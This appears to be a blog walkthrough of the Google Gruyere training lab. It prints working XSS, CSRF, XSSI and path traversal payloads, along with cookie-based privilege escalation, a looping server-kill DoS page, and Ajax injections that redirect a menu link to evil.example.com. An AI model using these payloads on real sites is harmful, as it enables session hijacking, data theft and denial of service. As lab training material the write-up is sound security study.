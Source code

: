 ```yaml
---
layout: post
title: Google Gruyere
---
```

#XSS

##File upload
For this I simply uploaded the following in an HTML file:

{% highlight html %}
<html><head<title></title></head><body><script>alert('hi')</script></body>
{% endhighlight %}

Then browsed to the URL provided

##Reflected XSS
This was as simple as appending the following to the site URL:

{% hightlight  html %}
<script>alert('hi')</script>
{% endhighlight %}

##Stored XSS
Here there are two places that come to mind immediately, snippets and the profile page.  There are quite a few ways to skin this cat, the one I was able to get working in multiple browsers was by using the onmouseover attribute of valid HTML elements to pop an alert, this was done using a snippet:

{% hightlight html %}
<a href="#" onmouseover="alert(1)">test</a>
{% endhighlight %}

##Stored XSS Via HTML Attributes
The only place I can think of to perform this other than a snippet which we already got exploited is in the profile page, it wasn't obvious to be intially, but the profile color input can be used to apply inline CSS to your name on the home page.  For this I ended up with the following:

{% highlight html %}
black' onmouseover='alert(1)' onfocus='alert(2)' onblur='alert(3)
{% endhighlight %}

This makes my user's name throw an alert on hover, then on the edit profile page is pops on focus and blur, one thing to note, this didn't initially fire because I was trying to follow normal HTML standards, after viewing page source rather than using browser debug tools I saw single quotes were used rather than normal double quotes.

##Stored XSS Via Ajax
This one took a lot of messing around, based on Google's provided hints, the refresh button was our target.  After tinkering a lot I was able to come up with this:

{% highlight javascript %}
hey <span style=display:none>eval(" + (alert(1),"") + ")</span>hi
{% endhighlight %}

This works because when you hit refresh on home a JSON object containing the latest snippets from each user gets eval'd in JavaScript, it took me quite a while to get this because I kept thinking I would need valid JSON, however when using eval the JSON value just has to be parseable JavaScript.

##Reflected XSS Via Ajax
This is very similar to the previous reflected XSS attack mentioned previously, it just gets hit in a different way.  After reading and looking through the code samples Google provides I noticed that the feed page when supplied the uid query string parameter does an eval-ish processing on the page that takes a URL like this:

{% highlight html %}
feed.gtl?uid=<script>alert(1)</script>
{% endhighlight %}

Then renders like this in page source:
{% highlight javascript %}
_feed((
[
"<script>alert(1)</script>"
]
))
{% endhighlight %}



{
"private_snippet":
  "private"

,"cheddar":
  "Gruyere is the cheesiest application on the web."


,"bob":
  "all <span style=display:none>" + (alert(1),"") + "</span>your base"
,"brie":
  "Brie is the queen of the cheeses<span style=color:red>!!!</span>"
}

#Client-State manipulation

##Priviledge elevation
In watching requests go through Burp I noticed that user registration passes the query string parameter is_author=True, which made me wonder if there was an is_admin option to pass.  After that I was seeing my requests to update a user profile, this also included the is_author parameter.  So I just started trying to set is admin.  Initially it seemed like no attempts were working, after looking through Google's hints it turns out that you need to log out then log back in, this way the cookie that gets used to identify you includes the admin flag, which doesn't happen by just editing the cookie.  

The reason for this is that the cookie is structured as follows:

32400598|bob||author

The first integer value is a token that gets generated server side, this seems to be the reason I wasn't able to just modify the cookie directly to get elevated privilidges.  Upon logging out and back in the cookie looks more like this:

32400598|bob|admin|author

Now the profile page has all the admin options and the manage server link also shows up.

##Cookie manipulation
This actually ended up being a bit more difficult, the cookie that gets set to identify a given browser as being a given system user gets generated based on the login or signing up of a user.  After trying a lot of different options I broke down and looked at the hints from Google and ended up with:

brie|admin|author

As my username when registering, a side affect (or what appears to be one) is that this can circumvent logging in as well.  Upon clicking sign in I was authenticated as brie without actually logging in.

##CSRF
All of these items require browsing an HTML file locally while also authenticated with Gruyere

To complete the exercise of deleting someone's snippet:
{% highlight html %}
<html><head><title></title></head><body><img src="http://google-gruyere.appspot.com/458351305912/deletesnippet?index=0" /></body></html>
{% endhighlight %}

Then just for fun, I tested updating a user's profile using the same technique, which worked:
{% highlight html %}
<html><head><title></title></head><body><img src="http://google-gruyere.appspot.com/458351305912/saveprofile?action=update&uid=bob&name=bob&oldpw=&pw=&icon=buttfart&web_site=http%3A%2F%2Fgithub.com&color=black&private_snippet=privat" />
</body></html>
{% endhighlight %}

##XSSI
For this exercise I ended up with:
{% highlight html %}
<html><head><title></title></head><body>
<script>function _feed(s) {document.write('your private thing is: ' + s['private_snippet']);}</script><script src="http://google-gruyere.appspot.com/458351305912/feed.gtl"></script></body></html>
{% endhighlight %}

What this is doing is defining a function that matches how the JavaScript in feed.gtl gets called, and then outputting data stored outside of our local files boundaries, but because the executing script has Google's system/domain as its context it has access to the snipped data where our _feed(s) function would have never originally had access.

#Path Traversal

##Information disclosure via path traversal
This ended up being really simple, but the browser was correcting the URL so it didn't work initially, my ../secret.txt needed to be ..%2Fsecret.txt, updating the encoding made things work.

##Data tampering via path traversal
For this one I started off trying to get the file overwritten by having a filename that included the directory traversal, however that just wouldn't work:
..%2F..2Fsecret.txt

After a bit of head scratching the username ended up working, signing up as a user with the name: ..%2F..%2F then uploading a new secret.txt, success.

#Denial of Service

##DoS - Quit the server
This one was pretty fun.  I totally forgot about CORS and originally wrote up a snippet of JavaScript to try and get this working, however the ajax requests got blocked by browser security.  

{% highlight html %}
<html>
  <head>
      <title></title>
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
      <script>
          (function($) {
              'use strict';
              var killbot = {
                  init: function() {
                      setInterval(function() {
                          $.ajax({
                              method: 'GET',
                              url: 'http://google-gruyere.appspot.com/458351305912/quitserver'
                          }).done(function(response) {
                              document.write('Killed server successfully\n');
                              document.write(response);
                          }).error(function(response) {
                              document.write('Error killing server');
                              document.write(response);
                          });
                      }, 5000);
                  },
                  handleEvents: function() {
                      let self = this;
                      $('#start').on('click', function(e) {
                          e.preventDefault();
                          self.init();
                      });

                      $('#stop').on('click', function() {
                          e.preventDefault();
                          clearInterval();
                      });
                  }
              };
              killbot.init();
          }(jQuery));
      </script>
  </head>
  <body>
      <ul>
          <li><a href="#" id="start">start</a></li>
          <li><a href="#" id="stop">stop</a></li>
      </ul>
      <img src=""
  </body>
</html>
{% endhighlight}

At this point I was thinking how useful would making a CSRF-ish attack using an image tag be?  It turns out with some Javascript and the image tag method worked together beautifully.  

{% highlight html %}
<html>
  <head>
      <title></title>
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
      <script>
          (function($) {
              'use strict';
              var killbot = {
                  init: function() {
                      setInterval(function() {
                          $('img').attr('src', 'http://google-gruyere.appspot.com/458351305912/quitserver');
                      }, 200);
                  },
                  handleEvents: function() {
                      let self = this;
                      $('#start').on('click', function(e) {
                          e.preventDefault();
                          self.init();
                      });

                      $('#stop').on('click', function() {
                          e.preventDefault();
                          clearInterval();
                      });
                  }
              };
              killbot.init();
          }(jQuery));
      </script>
  </head>
  <body>
      <ul>
          <li><a href="#" id="start">start</a></li>
          <li><a href="#" id="stop">stop</a></li>
      </ul>
      <img src="http://google-gruyere.appspot.com/458351305912/quitserver" />
  </body>
</html>
{% endhighlight %}

This worked both in an authenticated and un-authenticated browser session, its basically utilizing the same method to continually performing the server quit action on a loop.  Then just for fun I tried this on a browser that wasn't authenticated and it still worked, double whammy.

##DoS - Overloading the server
I had to look at the hints on this one to get it working.  Pretty much just overridding a template that gets rendered on every page, it ended up being menubar.gtl:

{% highlight python %} 
[[include:menubar.gtl]]DoS[[/include:menubar.gtl]]
{% endhighlight %}

#Code Execution
From looking at the files that power gruyer and the docs it looks like one of these .py files could be used.  I tried a few, the last of which being sanitize.py adding the following:

{% highlight python %}
from urlparse import urlparse, parse_qs

form = util.FieldStorage(req, keep_blank_values=1)
myparameter = form.getfirst("cmd")
print myparameter
{% endhighlight %}

#Configuration Vulnerabilities

##Information Disclosure 1
This one ended up being pretty easy, the description mentioned checking the files, a quick search through with grep for debug and config:

{% hightlight bash %}
grep -irE 'debug|config' *
gruyere.py:  def _DoReset(self, cookie, specials, params):  # debug only; resets this db
gtl.py:  elif escaper_name == 'pprint':  # for debugging
resources/dump.gtl:<title>Debug Dump</title>
{% endhighlight %}

Looking at dump.gtl is prints the database out to a page:
{% highlight json %}
_cookie:  	

{'is_admin': True, 'is_author': True, 'uid': u'bob'}

_profile:  	

{'is_author': 'True', 'name': 'bob', 'pw': 'password'}

_db:  	

{'../': {'is_author': 'True', 'name': '../', 'pw': 'password'},
 '../../': {'is_author': 'True', 'name': '../../', 'pw': 'password'},
 'administrator': {'is_admin': True,
                   'is_author': False,
                   'name': 'Admin',
                   'private_snippet': 'My password is secret. Get it?',
                   'pw': 'secret',
                   'web_site': 'http://www.google.com/contact/security.html'},
 'bob': {'is_author': 'True', 'name': 'bob', 'pw': 'password'},
 'bob|admin|author': {'is_author': 'True',
                      'name': 'bob|admin|author',
                      'pw': 'password'},
 'brie': {'color': 'red; text-decoration:underline',
          'is_admin': False,
          'is_author': True,
          'name': 'Brie',
          'private_snippet': 'I use the same password for all my accounts.',
          'pw': 'briebrie',
          'snippets': ['Brie is the queen of the cheeses<span style=color:red>!!!</span>'],
          'web_site': 'http://news.google.com/news/search?q=brie'},
 'cheddar': {'color': 'blue',
             'is_admin': False,
             'is_author': True,
             'name': 'Cheddar Mac',
             'private_snippet': 'My SSN is <a href="http://www.google.com/search?q=078-05-1120">078-05-1120</a>.',
             'pw': 'orange',
             'snippets': ['Gruyere is the cheesiest application on the web.',
                          'I wonder if there are any security holes in this....'],
             'web_site': 'http://images.google.com/images?q=cheddar+cheese'},
 'sardo': {'color': 'red',
           'is_admin': False,
           'is_author': True,
           'name': 'Miss Sardo',
           'private_snippet': 'I hate my brother Romano.',
           'pw': 'odras',
           'snippets': [],
           'web_site': 'http://www.google.com/search?q="pecorino+sardo"'}}
{% endhighlight %}

##Information Disclosure 2
After digging around more in the code thinking the vulnerability existed somewhere else I remembered that I can just upload arbitrary files to the server.  So I just went and uploaded the dump.gtl file back to the server in resources, then I was able to use the dump template again.

##Information Disclosure 3
This one referred to bad code so I starting going through the python some more.  Looking at gtl.py, which looks like it handles the various components of the templating language.  There is a section that uses {{ }} as variables:

{% highlight python %}
VAR_OPEN = '{{'
VAR_CLOSE = '}}'


def _ExpandVariables(template, specials, params, name):
  """Expands all the variables in a template."""
  result = []
  rest = template
  while rest:
    tag, before_tag, after_tag = _FindTag(rest, VAR_OPEN, VAR_CLOSE)
    if tag is None:
      break
    result.append(rest[:before_tag])
    result.append(str(_ExpandVariable(tag, specials, params, name)))
    rest = rest[after_tag:]
  return ''.join(result) + rest
{% endhighlight %}

This looks like it would be used for handling something like {{_db:pprint}} from dump.gtl

Looking at the edit/show profile template, two of the fields in a profile use the {{}} syntax for outputting data:

{% highlight html %}
<input type='text' name='web_site' value='{{_profile.web_site:text}}'>
<input type='text' name='private_snippet' value='{{_profile.private_snippet:text}}'>
{% endhighlight %}

They look like something to check out, lets just try putting {{_db:pprint}} in.

After saving the db dump gets thrown into the form controls.

#Ajax Vulnerabilities

##DoS via Ajax
{% hightlight javascript %}
" + eval(document.getElementById('menu-right').getElementsByTagName('a')[0].setAttribute('href', 'http://evil.example.com')) + "
{% endhighlight %}

##Phishing via Ajax
" + eval(console.log(document.getElementById('menu-right').getElementsByTagName('a')[0].setAttribute('href', 'http://evil.example.com'))) + "